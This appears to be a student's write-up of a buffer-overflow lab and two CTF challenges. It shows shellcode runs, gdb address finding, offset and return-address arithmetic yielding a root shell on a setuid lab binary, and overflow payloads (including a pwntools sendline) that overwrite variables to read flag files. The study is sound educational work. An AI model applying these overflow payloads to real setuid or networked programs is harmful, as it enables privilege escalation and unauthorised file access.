

# Work developed in week 5

## **Lab Tasks**

### Task 1

After creating the two binnaries with the Makefile we executed both. The results are listed bellow:

```bash
# Normal bash
seed@8e1ec14993da:~/shellcode$ uname -a
Linux 8e1ec14993da 5.10.60.1-microsoft-standard-WSL2 #1 SMP Wed Aug 25 23:20:18 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
seed@8e1ec14993da:~/shellcode$ whoami
seed
seed@8e1ec14993da:~/shellcode$ ps -p $$
  PID TTY          TIME CMD
    1 pts/0    00:00:00 bash
seed@8e1ec14993da:~/shellcode$ env
HOSTNAME=8e1ec14993da
PWD=/home/seed/shellcode
HOME=/home/seed
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
TERM=xterm
SHLVL=1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
OLDPWD=/home/seed
```

```bash
# 32-bit binnary
seed@8e1ec14993da:~/shellcode$ ./a32.out
$ uname -a
Linux 8e1ec14993da 5.10.60.1-microsoft-standard-WSL2 #1 SMP Wed Aug 25 23:20:18 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
$ whoami
seed
$ ps -p $$
  PID TTY          TIME CMD
   96 pts/0    00:00:00 sh
$ env
LOGNAME=seed
SHLVL=1
PWD=/home/seed/shellcode
OLDPWD=/home/seed/shellcode
_=/bin/env
```

```bash
# 64-bit binnary
seed@8e1ec14993da:~/shellcode$ ./a64.out
$ uname -a
Linux 8e1ec14993da 5.10.60.1-microsoft-standard-WSL2 #1 SMP Wed Aug 25 23:20:18 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
$ whoami
seed
$ ps -p $$
  PID TTY          TIME CMD
  102 pts/0    00:00:00 sh
$ env
LOGNAME=seed
SHLVL=1
PWD=/home/seed/shellcode
OLDPWD=/home/seed/shellcode
_=/bin/env
```

Both 32-bit and 64-bit binaries have the same output, since they both execute `execve()` call with "_/bin//sh"_ as the first argument, and we can see no environment variables are passed in that call, since the third argument is "_0"_.

### Task 2

This task requeires us to analize the code, which has a buffer overflow vulnerability, and to prepare the compilation for Task 3. The goal is to get acess to the root shell, exploiting that vulnerability, and to do so first we need to turn off the StackGuard and the non-executable stack protections, and give the programn the required permissions, as described in the highlighted _Compilation_ section.

### Task 3

Since we already explored the code and know that we have to perform a buffer overflow, we will start by executing the code in the lab guide to get the buffer’s starting position and the place where the return-address is stored:

```bash
[11/21/21]seed@VM:~/.../tarefa$ touch badfile
[11/21/21]seed@VM:~/.../tarefa$ gdb stack-L1-dbg
gdb-peda$ b bof
Breakpoint 1 at 0x122d: file stack.c, line 11.
gdb-peda$ run
...
Breakpoint 1, bof (str=0xffffcf77 "") at stack.c:11
11	{
gdb-peda$ next
...
14	    strcpy(buffer, str);
gdb-peda$ p $ebp
$1 = (void *) 0xffffcb48
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffcadc
gdb-peda$ quit
```

The _Base Pointer_ is at "0xffffcb48" and the _buffer’s starting position_ is at "0xffffcadc".
Knowing these two values, the shellcode size, and the size written to the buffer, we know that the shellcode must be placed 517 positions from the _buffer’s starting position_ (buffer has 517 size) minus the number of positions the shellcode occupies.

```jsx
start = 517 - len(shellcode);
ret = 0xffffcadc + start;
offset = 0xffffcb48 - 0xffffcadc + 4;
```

We can cause a buffer overflow to override the return address, located above the _Base Pointer_, so the offset value should be the difference between the _buffer’s_ and the _Base Pointer's_ address, plus the _Base Pointer_ size. With this vulnerability we can execute a shell with root privileges and execute any code:

```bash
[11/21/21]seed@VM:~/.../tarefa$ python3 exploit.py
[11/21/21]seed@VM:~/.../tarefa$ ./stack-L1
Input size: 517
# ls -l
total 192
-rwxrwxrwx 1 seed seed   965 Nov 10 04:09 Makefile
-rw-rw-r-- 1 seed seed   517 Nov 21 09:17 badfile
-rwxrwxrwx 1 seed seed   270 Nov 10 04:09 brute-force.sh
-rwxrwxrwx 1 seed seed  1004 Nov 21 09:17 exploit.py
-rw-rw-r-- 1 seed seed    11 Nov 21 09:16 peda-session-stack-L1-dbg.txt
-rwxrwxrwx 1 seed seed 15908 Nov 16 04:56 stack
-rwsr-xr-x 1 root seed 15908 Nov 21 09:15 stack-L1
-rwxrwxr-x 1 seed seed 18688 Nov 21 09:15 stack-L1-dbg
-rwsr-xr-x 1 root seed 15908 Nov 21 09:15 stack-L2
-rwxrwxr-x 1 seed seed 18688 Nov 21 09:15 stack-L2-dbg
-rwsr-xr-x 1 root seed 17112 Nov 21 09:15 stack-L3
-rwxrwxr-x 1 seed seed 20112 Nov 21 09:15 stack-L3-dbg
-rwsr-xr-x 1 root seed 17112 Nov 21 09:15 stack-L4
-rwxrwxr-x 1 seed seed 20112 Nov 21 09:15 stack-L4-dbg
-rwxrwxrwx 1 seed seed  1131 Nov 21 09:13 stack.c
# exit
```

Bellow is our drawn schema, that helped us visualize the stack and addresses, so we know which values to change in _exploit.py_



## **CTF write-up/resolution**

### Challenge 1

We start by analising the compiled program, checking which protections it has. Using the `checksum` command we can see its architecture (little-endian) and some permissions:

```bash
$ checksec program
  Arch:     i386-32-little
  RELRO:    No RELRO
  Stack:    No canary found
  NX:       NX disabled
  PIE:      No PIE (0x8048000)
  RWX:      Has RWX segments
```

After looking at the code we can answer the questions in moodle:

- The program reads the "_mem.txt" file_
- We can control which file is open if we change the "_meme_file_" variable
- A buffer overflow vulnerability is present. We can cause an overflow of the "_buffer_" variable in the `scanf` call, since the function can read up to 28 characters and _buffer_ only has size of 20.

Therefore, when the input is requested to the user though the `scanf` call, we can write, for example, "aaaaaaaaaaaaaaaaaaaaflag.txt". This way we fill the _buffer_ with the 20 "a"s characters and cause an overflow of "flag.txt" to _meme_file_ variable. Afterwards, in the `fopen` call, the file opened will be "flag.txt" instead of "mem.txt", in the `fgets` call the first 20 characters will be read from that file, and the flag is shown in the console.

```bash
[11/17/21]seed@VM:~/.../Semana5-Desafio1$ nc ctf-fsi.fe.up.pt 4003
Try to unlock the flag.
Show me what you got:aaaaaaaaaaaaaaaaaaaaflag.txt
Echo aaaaaaaaaaaaaaaaaaaaflag.txt
I like what you got!
flag{cd69acd607d4815defdf0c99bd62fc36}
```

### Challenge 2

This Challenge is similar to the above, similar program with the same `checksec` output, except that now these are the variables declared in the start of main():

```c
char meme_file[8] = "mem.txt\0";
char val[4] = "\xef\xbe\xad\xde";
char buffer[20];
```

And we have the following if condition, blocking us from seeing the contents of the file:

```c
if(*(long*)val == 0xfefc2122)
```

But it doesn't mitigate the problem completely. To read the flag in the _flag.txt_ file we need to perform a similar buffer overflow to the previous challenge, but now, additionally, we need to make sure that the value in `val` is equal to `0xfefc2122` bytes.With the provided python script, we can change the input to be sent to the following:

```python
r.sendline(b"a"*20 + b"\x22\x21\xfc\xfe" + b"flag.txt")
```

This way, we send 20 characters to fill the buffer, set the correct value of `val` to match the required _if condition_, and finally change the value of `meme_file`. Once again we are successful and get the flag inside _flag.txt_ file. Important to note that we send the "0xfefc2122" in bytes in the reverse order, due to that fact that the architeture is _little endian._ Little-endianness refers to the byte ordering where the least significant byte is stored first. So in this case, if we have the 4-byte value of "0xfefc2122" we would store it in memory, in the _val_ buffer, in the following way: "22 21 fc fe" (\x22\x21\xfc\xfe).
